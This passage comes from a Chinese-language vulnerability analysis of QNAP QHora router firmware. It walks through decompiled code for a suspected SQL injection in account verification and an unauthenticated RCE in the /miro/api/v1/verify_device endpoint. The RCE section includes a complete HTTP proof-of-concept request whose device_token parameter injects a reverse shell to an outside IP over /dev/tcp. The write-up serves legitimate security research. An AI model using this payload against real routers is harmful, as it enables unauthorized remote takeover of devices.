          v8 = sub_41E2C4(v10, &v43);
          goto LABEL_35;
        case 4: //[2]
          v11 = (_QWORD *)qword_49CFD8;
          Json::Value::Value((Json::Value *)&v43, (const Json::Value *)v38);
          v8 = sub_41CAB4(v11, (Json::Value *)&v43, (Json::Value *)v39); //[3]
          goto LABEL_35;
        case 5:
          v15 = qword_49CFD8;
          Json::Value::Value((Json::Value *)&v43, (const Json::Value *)v38);
          v8 = sub_41C584(v15, 3LL, &v43, v39);
          goto LABEL_35;
        case 6:
```
> 非常简单的处理, [1]switch函数判断了我们的a2, 并进入[3]的`sub_41CAB4`函数.

> 当我们进入`sub_41CAB4`函数将看到了熟悉的朋友`VerifyUserAcct`字符串.

> 回到`qs_call`当我们熟悉系统后, 会发现很多类似的调用,在python脚本中,甚至可以使用命令去调用下面是例子

```python

qs.Service.ezCall('NetworkService', 'Get_available_lan_info', '', 60, -1)

```

```sh

/usr/sbin/qsh NetworkService.Setup_firewall

```
> 当然这里有一个小提示当你尝试从命令行去调用一个需要传参的功能时可能会出现解析错误的情况, 你的int类型可能会被识别为string类型, 所以我建议你使用python脚本去调用.

> 我这里列出几个对应的模块.
```sh

 QVPNDBMgr->/usr/sbin/qvpn_db_mgr,
 NetworkService->/usr/sbin/qserviced,
 rmgmtd->/usr/sbin/rmgmtd,
 QVPN->qvpn_wg

```

> 攻面的总结, 我看完了所以服务吗? 那肯定是没有的还有许多默认是没有开启的服务我都没有看, 甚至还有一个5555的端口开放我都没有找到什么程序绑定的.

## 漏洞分析

### vuln-1 ?

> 你会发现上面对于`sub_41CAB4`函数的分析戛然而止了, 没错因为它可能存在一个潜在的sql injection, 为什么是潜在的sql注入呢, 我没有测试过这个漏洞, 最起码我看上去这个漏洞是存在的, 第一我没有实体设备, 第二这漏洞有一个条件, 上面通过官方对于QBelt协议的介绍, 我们得知它结合了 DTLS 和 AES-256 加密, 所以通信过程是加密那么怎么握手的呢, 关键就是在配置QBelt时预留的psk(预共享密钥), 看来在发送user和pwd之前还会检查TDLS中的psk, 所以它是一个授权后的漏洞或者我们可以通过爆破? 或者可以在什么地方造成泄露?

> 先不去管这些吧, 来看一下`sub_41CAB4`

```c++

__int64 __fastcall sub_41CAB4(_QWORD *a1, Json::Value *a2, Json::Value *a3)
{
  __int64 v6; // x0

  v44 = off_460430;
  v45 = 0LL;
  v46 = 4;
  v47 = "DBMgr.cpp";
  v49 = "int DBMgr::VerifyUserAcct(Json::Value, Json::Value&)";
  v6 = sub_42F3DC(&v44, 1LL, "default");
  sub_40FD80(v6, "Enter");
  sub_40F8D8(&v44);
  v24 = 0;
  v27 = &v29;
  v28 = 0LL;
  Json::Value::Value((Json::Value *)v38, "");
  Json::Value::get(a2, "user_name", (const Json::Value *)v38); //[1]
  Json::Value::asString[abi:cxx11](&v44);
  sub_4155E0(&v27, v34);
  std::string::_M_dispose(v34);
  Json::Value::~Value((Json::Value *)&v44);
  Json::Value::~Value((Json::Value *)v38);
  Json::Value::Value((Json::Value *)v38, "");
  Json::Value::get(a2, "pw", (const Json::Value *)v38); //[2]
  Json::Value::asString[abi:cxx11](&v44);
  sub_4155E0(v30, v35);
  std::string::_M_dispose(v35);
  Json::Value::~Value((Json::Value *)&v44);
  Json::Value::~Value((Json::Value *)v38);
  Json::Value::Value((Json::Value *)v38, 0);
  Json::Value::get(a2, "capability", (const Json::Value *)v38); //[3]
  v25 = Json::Value::asUInt((Json::Value *)&v44);
  Json::Value::~Value((Json::Value *)&v44);
  Json::Value::~Value((Json::Value *)v38);
  Json::Value::Value((Json::Value *)v38, 0);
  Json::Value::get(a2, "role_type", (const Json::Value *)v38); //[4]
  v26 = Json::Value::asUInt((Json::Value *)&v44);
  Json::Value::~Value((Json::Value *)&v44);
  Json::Value::~Value((Json::Value *)v38);
  if ( v26 == 1 )
  {
    if ( v28 > 0x20 )
    {
      std::string::_M_assign(&v41, &v27);
      std::operator+<char>("SELECT user_name FROM AcctTable WHERE user_id = '", &v41); //[5]
      std::operator+<char>(v38, "';");
      sub_4155E0(v32, &v44);
      std::string::_M_dispose(&v44);
      std::string::_M_dispose(v38);
      if ( !(unsigned int)sub_4200A0(*a1, v32[0], a3) && !(unsigned __int8)Json::Value::empty(a3) ) //[6]
      {
        v10 = (Json::Value *)Json::Value::operator[](a3, 0LL);
        Json::Value::Value((Json::Value *)v38, "");
        Json::Value::get(v10, "user_name", (const Json::Value *)v38);
        Json::Value::asString[abi:cxx11](&v44);
        sub_4155E0(v39, v37);
        v8 = v37;
        goto LABEL_6;
      }
    }
    else
    {
      std::string::_M_assign(v39, &v27);
      std::operator+<char>("SELECT user_id FROM AcctTable WHERE user_name = '", v39); //[7]
      std::operator+<char>(v35, &unk_461307);
      sub_41222C(11LL);
      sub_40FCA4(v36, v37);
      std::operator+<char>(&v44, ";");
      sub_4155E0(v32, v38);
      std::string::_M_dispose(v38);
      std::string::_M_dispose(&v44);
      std::string::_M_dispose(v37);
      std::string::_M_dispose(v36);
      std::string::_M_dispose(v35);
      if ( !(unsigned int)sub_4200A0(*a1, v32[0], a3) && !(unsigned __int8)Json::Value::empty(a3) ) //[8]
      {
        v7 = (Json::Value *)Json::Value::operator[](a3, 0LL);
        Json::Value::Value((Json::Value *)v38, "");
        Json::Value::get(v7, "user_id", (const Json::Value *)v38);
        Json::Value::asString[abi:cxx11](&v44);
        sub_4155E0(&v41, v36);
        v8 = v36;
LABEL_6:
        std::string::_M_dispose(v8);
        Json::Value::~Value((Json::Value *)&v44);
        Json::Value::~Value((Json::Value *)v38);
      }
    }
  }
  else if ( !v26 )
  {
    std::string::_M_assign(v39, &v27);
  }
  if ( (unsigned __int8)sub_41F310(v39, "") || (unsigned __int8)sub_41F310(v30, "") || v26 == 1 && !v42 )
  {
    v44 = off_460430;
    v45 = 0LL;
    v46 = 16;
    v47 = "DBMgr.cpp";
    v49 = "int DBMgr::VerifyUserAcct(Json::Value, Json::Value&)";
    v9 = sub_42F3DC(&v44, 1LL, "default");
    v11 = sub_41F348(v9, "Insufficient info! info: ");
    v13 = sub_41F378(v11, "user name: ");
    v14 = sub_40FE84(v13, v39);
    v15 = sub_41F378(v14, ", user_id: ");
    v16 = sub_40FE84(v15, &v41);
    v17 = sub_41F290(v16, ", capability: ");
    v18 = sub_41F3A8(v17, &v25);
    v19 = v18;
    if ( *(_BYTE *)(v18 + 64) )
      sub_415778(v18 + 72, ", role_type: ");
    sub_41F3A8(v19, &v26);
    sub_40F8D8(&v44);
    v24 = -3;
  }
  else
  {
    v12 = *a1;
    sub_40FBA0(&v44, v39);
    std::string::basic_string(v38, v30);
    v24 = sub_40EFE4(v12, &v44, v38, v25, a3); //[9]
    std::string::_M_dispose(v38);
    sub_40FB78(&v44);
  }
  v44 = off_460430;
  v45 = 0LL;
  v46 = 4;
  v47 = "DBMgr.cpp";
  v49 = "int DBMgr::VerifyUserAcct(Json::Value, Json::Value&)";
  v55 = 2;
  v20 = sub_42F3DC(&v44, 1LL, "default");
  v21 = sub_40FD80(v20, "Exit ");
  sub_41F2C0(v21, &v24);
  sub_40F8D8(&v44);
  v22 = v24;
  sub_40FB78(v39);
  std::string::_M_dispose(v32);
  std::string::_M_dispose(v30);
  std::string::_M_dispose(&v27);
  return v22;
}

```

> 在[1],[2],[3],[4]解析了我们发送的json数据后, 根据我们的`role_type`的值会有略微的不同处理.  嗯～我们对于sql命令的敏感程度很快的让我们看到了[5],[7], 看上去就是`std::operator+`去拼接了我们的user, 并没有看到什么过滤函数, 如果我的理解没有问题的话这里一定有sql注入, 而这个命令将进入`sub_4200A0`->`sub_41FD60`函数并使用`sqlite3_exec`函数去执行命令.

```c++
__int64 __fastcall sub_4200A0(__int64 a1, __int64 a2, __int64 a3)
{
  __int64 v6; // x0
  __int64 v26; // [xsp+E8h] [xbp+E8h]

  v6 = sub_42F3DC(&v12, 1LL, "default");
  if ( *(_BYTE *)(v6 + 64) )
    sub_41FB0C(v6 + 72, "Enter");
  sub_40F8D8(&v12);
  Json::Value::Value(v11, 0LL);
  Json::Value::Value(&v12, 6LL);
  Json::Value::operator=(v11, &v12);
  Json::Value::~Value((Json::Value *)&v12);
  v7 = sub_41FD60(a1, a2, sub_41F968, v11);
            //........

}

__int64 __fastcall sub_41FD60(_QWORD *a1, __int64 a2, __int64 a3, __int64 a4)
{
  __int64 result; // x0
  __int64 v9; // x19
  char *s; // [xsp+30h] [xbp+30h] BYREF
  __int64 v11[2]; // [xsp+38h] [xbp+38h] BYREF
  int v12; // [xsp+48h] [xbp+48h]
  const char *v13; // [xsp+50h] [xbp+50h]
  __int64 v14; // [xsp+58h] [xbp+58h]
  const char *v15; // [xsp+60h] [xbp+60h]
  __int16 v16; // [xsp+68h] [xbp+68h]
  __int64 v17; // [xsp+70h] [xbp+70h]
  char v18; // [xsp+78h] [xbp+78h]
  __int64 v19; // [xsp+80h] [xbp+80h]
  char *v20; // [xsp+88h] [xbp+88h]
  int v21; // [xsp+90h] [xbp+90h]
  __int64 v22; // [xsp+98h] [xbp+98h]
  __int64 v23; // [xsp+A0h] [xbp+A0h]
  __int64 v24; // [xsp+A8h] [xbp+A8h]

  s = 0LL;
  result = sub_41FB94();
  if ( !(_DWORD)result )
  {
    result = sqlite3_exec(*a1, a2, a3, a4, &s);
    if ( (_DWORD)result )
    {
      v16 = 0;
      v17 = 0LL;
      v11[0] = (__int64)off_460430;
      v11[1] = 0LL;
      v12 = 16;
      v18 = 0;
      v13 = "DBTable.cpp";
      v19 = 0LL;
      v14 = 249LL;
      v22 = 0LL;
      v23 = 0LL;
      v15 = "int DBTable::ExecuteSQL(const char*, exec_cb, void*)";
      v24 = 0LL;
      v20 = "";
      v21 = 2;
      v9 = sub_42F3DC(v11, 1LL, "default");
      if ( *(_BYTE *)(v9 + 64) )
      {
        sub_41FB0C(v9 + 72, "Execute sql failed! sql: ");
        if ( *(_BYTE *)(v9 + 64) )
        {
          sub_41FB0C(v9 + 72, a2);
          if ( *(_BYTE *)(v9 + 64) )
          {
            sub_41FB0C(v9 + 72, "; err: ");
            if ( *(_BYTE *)(v9 + 64) )
            {
              sub_41FAA8(*(_DWORD *)(v9 + 72) + 120, s);
              if ( (*(_DWORD *)(qword_49D020 + 72) & 0x2000) != 0 )
                sub_41FAFC(*(_QWORD *)(v9 + 72));
            }
          }
        }
      }
      sub_40F8D8(v11);
      sub_41FB60(a1);
      sub_41FB54(s);
      return 4294966293LL;
    }
  }
  return result;
}
```

> 现在继续来看[9]处的函数`sub_40EFE4`

```c++
__int64 __fastcall sub_40EFE4(__int64 a1, __int64 a2, Json::Value **a3, unsigned int a4, __int64 a5)
{
  __int64 v9; // x0
  int v10; // w0


  *(_QWORD *)v53 = off_460430;
  v54 = 0LL;
  s = 4;
  v56 = "AcctTable.cpp";
  v59 = 0;
  v60 = 0LL;
  v61 = 0;
  v62 = 0LL;
  v63 = "";
  v65 = 0LL;
  v66 = 0LL;
  v57 = 289LL;
  v58 = "int AcctTable::VerifyAcct(UserInfo, std::string, uint32_t, Json::Value&)";
  v64 = 2;
  v67 = 0LL;
  v9 = sub_42F3DC(v53, 1LL, "default");
  sub_40FD80(v9, "Enter");
  sub_40F8D8(v53);
  v28 = 0;
  v31 = 0;
  v29 = &v31;
  v30 = 0LL;
  std::string::basic_string(v33, a1 + 64);
  std::operator+<char>("SELECT * FROM ", v33);
  std::operator+<char>(v35, " WHERE user_name = '");//[1]
  sub_40FFC0(v36, a2);
  std::operator+<char>(v37, "' and user_id = '");
  sub_40FFC0(&v38, a2 + 32);
  std::operator+<char>(v53, "';");
  std::string::_M_dispose(v53);
  std::string::_M_dispose(&v38);
  std::string::_M_dispose(v37);
  std::string::_M_dispose(v36);
  std::string::_M_dispose(v35);
  std::string::_M_dispose(v33);
  Json::Value::Value(v37, 0LL);
  sub_40FBA0(v53, a2);
  v25 = (unsigned __int8)sub_40D29C(a1, v53);//[3]
  sub_40FB78(v53);
  if ( !v25 )
  {
    std::operator+<char>("[", a2);
    std::operator+<char>(v36, "] is not existed!");
    Json::Value::Value(v53, &v38);
    Json::Value::operator=(a5, v53);
    Json::Value::~Value((Json::Value *)v53);
    std::string::_M_dispose(&v38);
    std::string::_M_dispose(v36);
    v10 = -1005;
LABEL_3:
    v28 = v10;
    goto LABEL_4;
  }
  if ( (unsigned int)sub_4200A0(a1, v32[0], (__int64)v37) || (unsigned __int8)Json::Value::empty((Json::Value *)v37) ) //[2]
  {
    std::operator+<char>("[", a2);
    std::operator+<char>(v36, "] verify failed!");
    Json::Value::Value(v53, &v38);
    Json::Value::operator=(a5, v53);
    Json::Value::~Value((Json::Value *)v53);
    std::string::_M_dispose(&v38);
    std::string::_M_dispose(v36);
    v10 = -1006;
    goto LABEL_3;
  }
  v26 = (Json::Value *)Json::Value::operator[](v37, 0LL);
  Json::Value::Value((Json::Value *)&v38, "");
  Json::Value::get(v26, "pw", (const Json::Value *)&v38);
  Json::Value::asString[abi:cxx11](v53);
  std::string::operator=(&v29, v36);
  std::string::_M_dispose(v36);
  Json::Value::~Value((Json::Value *)v53);
  Json::Value::~Value((Json::Value *)&v38);
  if ( !v30 )
  {
    std::operator+<char>("[", a2);
    std::operator+<char>(v36, "] verify failed!");
    Json::Value::Value(v53, &v38);
    Json::Value::operator=(a5, v53);
    Json::Value::~Value((Json::Value *)v53);
    std::string::_M_dispose(&v38);
    std::string::_M_dispose(v36);
    v10 = -1008;
    goto LABEL_3;
  }
  if ( !*(_QWORD *)(a2 + 40) )
  {
    if ( (unsigned __int8)sub_40FF18(a3, &v29) )
    {
      v10 = sub_40CAA0(a1, v37, a4, a5);
    }
    else
    {
      std::operator+<char>("[", a2);
      std::operator+<char>(v36, "] verify failed!");
      Json::Value::Value(v53, &v38);
      Json::Value::operator=(a5, v53);
      Json::Value::~Value((Json::Value *)v53);
      std::string::_M_dispose(&v38);
      std::string::_M_dispose(v36);
      v10 = -1007;
    }
    goto LABEL_3;
  }
  *(_QWORD *)v53 = 0LL;
  v54 = 0LL;
  memset(&s, 0, 0xF0uLL);
  v12 = *a3;
  v33[1] = 0LL;
  v34 = 0;
  v38 = off_460430;
  v39 = 0LL;
  v27 = v12;
  v41 = "AcctTable.cpp";
  v33[0] = (__int64)&v34;
  v43 = "int AcctTable::VerifyAcct(UserInfo, std::string, uint32_t, Json::Value&)";
  v40 = 128;
  v44 = 0;
  v42 = 330LL;
  v45 = 0LL;
  v49 = 2;
  v46 = 0;
  v47 = 0LL;
  v48 = "";
  v50 = 0LL;
  v51 = 0LL;
  v52 = 0LL;
  v13 = sub_42F3DC(&v38, 1LL, "default");
  if ( *(_BYTE *)(v13 + 64) )
    sub_40A06C(v13 + 72, "user_id:");
  v14 = sub_40FE84(v13, a2 + 32);
  v15 = sub_40FF60(v14, " user_name: ");
  v16 = sub_40FE84(v15, a2);
  if ( *(_BYTE *)(v16 + 64) )
    sub_40A06C(v16 + 72, " client_type is for quwan");
  sub_40F8D8(&v38);
  sub_45A6C8(v53, v27);
  sub_409E58((int)&v38, v53);
  std::string::operator=(v33, &v38);
  std::string::_M_dispose(&v38);
  v17 = (unsigned int)bcrypt_checkpw(v33[0], v29) == 0;
  v28 = v17;
  if ( v17 )
  {
    v44 = 0;
    v45 = 0LL;
    v38 = off_460430;
    v39 = 0LL;
    v40 = 128;
    v46 = 0;
    v41 = "AcctTable.cpp";
    v47 = 0LL;
    v42 = 337LL;
    v50 = 0LL;
    v51 = 0LL;
    v43 = "int AcctTable::VerifyAcct(UserInfo, std::string, uint32_t, Json::Value&)";
    v52 = 0LL;
    v48 = "";
    v49 = 2;
    v18 = sub_42F3DC(&v38, 1LL, "default");
    if ( *(_BYTE *)(v18 + 64) )
      sub_40A06C(v18 + 72, "password verification pass!"); //[4]
    sub_40F8D8(&v38);
    v19 = sub_40CAA0(a1, v37, a4, a5);
  }
  else
  {
    std::operator+<char>("[", a2);
    std::operator+<char>(v35, "] verify failed!"); //[5]
    Json::Value::Value(&v38, v36);
    Json::Value::operator=(a5, &v38);
    Json::Value::~Value((Json::Value *)&v38);
    std::string::_M_dispose(v36);
    std::string::_M_dispose(v35);
    v19 = -1007;
  }
  v28 = v19;
  std::string::_M_dispose(v33);
LABEL_4:
  if ( v28 )
  {
    *(_QWORD *)v53 = off_460430;
    v54 = 0LL;
    s = 16;
    v56 = "AcctTable.cpp";
    v58 = "int AcctTable::VerifyAcct(UserInfo, std::string, uint32_t, Json::Value&)";
    v59 = 0;
    v60 = 0LL;
    v61 = 0;
    v62 = 0LL;
    v63 = "";
    v65 = 0LL;
    v66 = 0LL;
    v57 = 348LL;
    v67 = 0LL;
    v64 = 2;
    v11 = sub_42F3DC(v53, 1LL, "default");
    sub_40A01C(v11, a5);
    sub_40F8D8(v53);
  }
  *(_QWORD *)v53 = off_460430;
  v54 = 0LL;
  s = 4;
  v56 = "AcctTable.cpp";
  v58 = "int AcctTable::VerifyAcct(UserInfo, std::string, uint32_t, Json::Value&)";
  v59 = 0;
  v60 = 0LL;
  v61 = 0;
  v62 = 0LL;
  v63 = "";
  v65 = 0LL;
  v66 = 0LL;
  v57 = 350LL;
  v67 = 0LL;
  v64 = 2;
  v20 = sub_42F3DC(v53, 1LL, "default");
  v21 = sub_40FD80(v20, "Exit ");
  sub_40A0B4(v21, &v28);
  sub_40F8D8(v53);
  v22 = v28;
  Json::Value::~Value((Json::Value *)v37);
  std::string::_M_dispose(v32);
  std::string::_M_dispose(&v29);
  return v22;
}
```

> 可以看到在[1],[2]处和上级函数一样的拼接和调用, 也可以看到[4],[5]处对于验证账号密码的一些日志输出, 而[3]处的函数除了语句的不同基本一致.

> 所以到这里我们的这个漏洞分析就结束了, 再次声明一下我没有对这个漏洞做过测试, 只是在代码层面来讲可能有漏洞的一次分析, 如果这个漏洞不能够复现师傅们就当看个笑话吧.

### vuln-2

> 下面两个漏洞都在web, 并且都是未授权的RCE, 第一个是一个触手可及的RCE, 甚至是GET请求, 现在让我们将思路回到web上.

> 上面我总结了这些函数是不需要认证的`qhora_301w.regV1NonAuthAPIs(), qhora_301w.regV2NonAuthAPIs()`, 这两个函数中设置的路由如下


```C

GET /miro/api/v2/system/machine_info //获取请求没有参数可以控
GET /miro/api/v2/website_info //获取请求没有参数可以控
POST /miro/api/v2/internal/event //代码看起来像是控制LED的,传参但无值可以控

POST /miro/api/v1/login //登录接口使用gin-jwt框架的登录方法
POST /miro/api/v1/initial/login //登录接口使用gin-jwt框架的登录方法
GET /miro/api/v1/verify_device //验证设备
GET /miro/api/v1/machine_info //获取请求没有参数可以控

```

> 这里也不绕弯子了, 存在漏洞的路径是 /miro/api/v1/verify_device, POC如下.

```https

GET /miro/api/v1/verify_device?verify_device=1&device_token=super$(sh -i >& /dev/tcp/74.48.140.145/2333 0>&1)command&callback=1 HTTP/1.1
Host: 192.168.199.221
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
baggage: sentry-environment=production,sentry-public_key=cd1cc31d0e574fb20f9153041f7ed837,sentry-trace_id=fc1a9e84d3894a08b913aea1d770b389,sentry-sample_rate=1,sentry-transaction=Initialize,sentry-sampled=true
authorization: Bearer undefined
sentry-trace: fc1a9e84d3894a08b913aea1d770b389-9f122e0b7e1df1d3-1
content-type: application/json
Accept: */*
Referer: http://192.168.199.221/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: len=null
Connection: keep-alive

```

> 来看一下代码吧, 首先到我们的`qhora_301w.regV1NonAuthAPIs()`函数.

```C


/* WARNING: Unknown calling convention */
/* Name: miro-webserver/routes/qhora_301w.regV1NonAuthAPIs
   Start: 00d5e420
   End: 00d5e6c0 */

void miro-webserver/routes/qhora_301w.regV1NonAuthAPIs(undefined8 param_1)

{
  code **ppcVar1;
  long unaff_x28;
  code **in_stack_ffffffffffffffa0;
  char *pcVar2;
  char *pcVar3;
  undefined8 in_stack_ffffffffffffffd8;
  undefined8 in_stack_ffffffffffffffe0;
  
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/routes/qhora_301w/index.go:162
                        */
  while (&stack0x00000000 <= *(undefined **)(unaff_x28 + 0x10)) {
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/routes/qhora_301w/index.go:162
                        */
    runtime.morestack_noctxt();
  }
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/routes/qhora_301w/index.go:163
                        */
  runtime.newobject(&DAT_00eda840,in_stack_ffffffffffffffa0);
  *in_stack_ffffffffffffffa0 = github.com/appleboy/gin-jwt/v2.(*GinJWTMiddleware).LoginHandler-fm;
  ppcVar1 = in_stack_ffffffffffffffa0;
  if (DAT_01830e10 == 0) {
    in_stack_ffffffffffffffa0[1] = DAT_017fa300;
  }
  else {
    runtime.gcWriteBarrier();
  }
  runtime.newobject(&datatype.Array.[1]gin.HandlerFunc,ppcVar1);
  if (DAT_01830e10 == 0) {
    *ppcVar1 = (code *)in_stack_ffffffffffffffa0;
  }
  else {
    runtime.gcWriteBarrier();
  }
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/vendor/github.com/gin-gonic/gin/routergroup.go:98
                        */
  pcVar2 = s_POST_00fa5b10;
  github.com/gin-gonic/gin.(*RouterGroup).handle
            (param_1,s_POST_00fa5b10,4,&DAT_00fa759b,6,ppcVar1,1,1,in_stack_ffffffffffffffd8,
             in_stack_ffffffffffffffe0);
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/routes/qhora_301w/index.go:164
                        */
  runtime.newobject(&DAT_00eda840,pcVar2);
  *(code **)pcVar2 = github.com/appleboy/gin-jwt/v2.(*GinJWTMiddleware).LoginHandler-fm;
  ppcVar1 = (code **)pcVar2;
  if (DAT_01830e10 == 0) {
    *(code **)((long)pcVar2 + 8) = DAT_017fa308;
  }
  else {
    runtime.gcWriteBarrier();
  }
  runtime.newobject(&datatype.Array.[1]gin.HandlerFunc,ppcVar1);
  if (DAT_01830e10 == 0) {
    *ppcVar1 = (code *)pcVar2;
  }
  else {
    runtime.gcWriteBarrier();
  }
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/vendor/github.com/gin-gonic/gin/routergroup.go:98
                        */
  pcVar2 = s_POST_00fa5b10;
  github.com/gin-gonic/gin.(*RouterGroup).handle
            (param_1,"POST",4,"/initial/login",0xe,ppcVar1,1,1,in_stack_ffffffffffffffd8,
             in_stack_ffffffffffffffe0);
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/routes/qhora_301w/index.go:165
                        */
  runtime.newobject(&datatype.Array.[1]gin.HandlerFunc,pcVar2);
  *(undefined ***)pcVar2 = &PTR_miro-webserver/controllers/api/system.VerifyDeviceAPI_0102f708; //[2]
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/vendor/github.com/gin-gonic/gin/routergroup.go:103
                        */
  pcVar3 = s_GET_00fa5267;
  github.com/gin-gonic/gin.(*RouterGroup).handle
            (param_1,"GET",3,"/verify_device",0xe,pcVar2,1,1,in_stack_ffffffffffffffd8,
             in_stack_ffffffffffffffe0); //[1]
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/routes/qhora_301w/index.go:167
                        */
  runtime.newobject(&datatype.Array.[1]gin.HandlerFunc,pcVar3);
  *(undefined ***)pcVar3 = &PTR_miro-webserver/controllers/api/system.GetMachineInfoAPI_0102f668;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/vendor/github.com/gin-gonic/gin/routergroup.go:103
                        */
  github.com/gin-gonic/gin.(*RouterGroup).handle
            (param_1,"GET",3,"/machine_info",0xd,pcVar3,1,1,in_stack_ffffffffffffffd8,
             in_stack_ffffffffffffffe0);
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/routes/qhora_301w/index.go:168
                        */
  return;
}

```

> 在[1]处设置了路由, 而[2]处就是我们调用的函数`miro-webserver/controllers/api/system.VerifyDeviceAPI`, 进入这个函数.

```c

void miro-webserver/controllers/api/system.VerifyDeviceAPI(undefined8 param_1)

{
  undefined8 uVar1;
  undefined8 uVar2;
  long lVar3;
  char cVar4;
  undefined8 *puVar5;
  long unaff_x28;
  undefined *unaff_x29;
  undefined8 unaff_x30;
  
  do {
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/system/hora_system.go:770
                        */
    puVar5 = (undefined8 *)register0x00000008;
    if (*(undefined **)(unaff_x28 + 0x10) < (undefined *)((long)register0x00000008 + -0xc0)) {
      puVar5 = (undefined8 *)((long)register0x00000008 + -0x140);
                    /* not_found:77276 */
      *puVar5 = unaff_x30;
                    /* not_found:77277 */
      *(undefined **)((long)register0x00000008 + -0x148) = unaff_x29;
                    /* not_found:77280 */
      unaff_x29 = (undefined *)((long)register0x00000008 + -0x148);
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/system/hora_system.go:771
                        */
      *(undefined8 *)((long)register0x00000008 + -0x80) = 0;
      *(undefined8 *)((long)register0x00000008 + -0x78) = 0;
      *(runtime._type **)((long)register0x00000008 + -0x80) = &datatype.String.string;
      *(undefined ***)((long)register0x00000008 + -0x78) = &goss_QidRequest_116aa70;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/vendor/github.com/sirupsen/logrus/logger.go:206
                        */
      *(undefined8 *)((long)register0x00000008 + -0x138) = DAT_017fa440;
      *(undefined4 *)((long)register0x00000008 + -0x130) = 4;
      *(undefined **)((long)register0x00000008 + -0x128) =
           (undefined *)((long)register0x00000008 + -0x80);
      *(undefined8 *)((long)register0x00000008 + -0x120) = 1;
      *(undefined8 *)((long)register0x00000008 + -0x118) = 1;
      github.com/sirupsen/logrus.(*Logger).Log
                (*(undefined8 *)((long)register0x00000008 + -0x138),
                 *(undefined8 *)((long)register0x00000008 + -0x130),
                 *(undefined8 *)((long)register0x00000008 + -0x128),
                 *(undefined8 *)((long)register0x00000008 + -0x120),
                 *(undefined8 *)((long)register0x00000008 + -0x118));
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/vendor/github.com/gin-gonic/gin/context.go:381
                        */
      *(undefined8 *)((long)register0x00000008 + -0x138) =
           *(undefined8 *)((long)register0x00000008 + 8);
      *(undefined **)((long)register0x00000008 + -0x130) = "verify_device";
      *(undefined8 *)((long)register0x00000008 + -0x128) = 0xd;
      github.com/gin-gonic/gin.(*Context).GetQueryArray //[1]
                (*(undefined8 *)((long)register0x00000008 + -0x138),
                 *(undefined8 *)((long)register0x00000008 + -0x130),
                 *(undefined8 *)((long)register0x00000008 + -0x128),
                 *(undefined8 *)((long)register0x00000008 + -0x120),
                 *(undefined8 *)((long)register0x00000008 + -0x118),
                 *(undefined8 *)((long)register0x00000008 + -0x110),
                 *(undefined8 *)((long)register0x00000008 + -0x108));
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/vendor/github.com/gin-gonic/gin/context.go:382
                        */
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/vendor/github.com/gin-gonic/gin/context.go:381
                        */
      if (*(char *)((long)register0x00000008 + -0x108) == '\0') {
        uVar1 = 0;
        uVar2 = 0;
LAB_00bf1d7c:
        *(undefined8 *)((long)register0x00000008 + -0xe0) = uVar2;
        *(undefined8 *)((long)register0x00000008 + -0xe8) = uVar1;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/vendor/github.com/gin-gonic/gin/context.go:381
                        */
        *(undefined8 *)((long)register0x00000008 + -0x138) =
             *(undefined8 *)((long)register0x00000008 + 8);
        *(undefined **)((long)register0x00000008 + -0x130) = "device_token";
        *(undefined8 *)((long)register0x00000008 + -0x128) = 0xc;
        github.com/gin-gonic/gin.(*Context).GetQueryArray //[2]
                  (*(undefined8 *)((long)register0x00000008 + -0x138),
                   *(undefined8 *)((long)register0x00000008 + -0x130),
                   *(undefined8 *)((long)register0x00000008 + -0x128),
                   *(undefined8 *)((long)register0x00000008 + -0x120),
                   *(undefined8 *)((long)register0x00000008 + -0x118),
                   *(undefined8 *)((long)register0x00000008 + -0x110),
                   *(undefined8 *)((long)register0x00000008 + -0x108));
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/vendor/github.com/gin-gonic/gin/context.go:382
                        */
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/vendor/github.com/gin-gonic/gin/context.go:381
                        */
        cVar4 = *(char *)((long)register0x00000008 + -0x108);
        if (cVar4 == '\0') {
          uVar1 = 0;
          uVar2 = 0;
          cVar4 = '\0';
LAB_00bf1dd4:
          *(char *)((long)register0x00000008 + -0xfa) = cVar4;
          *(undefined8 *)((long)register0x00000008 + -0xf0) = uVar1;
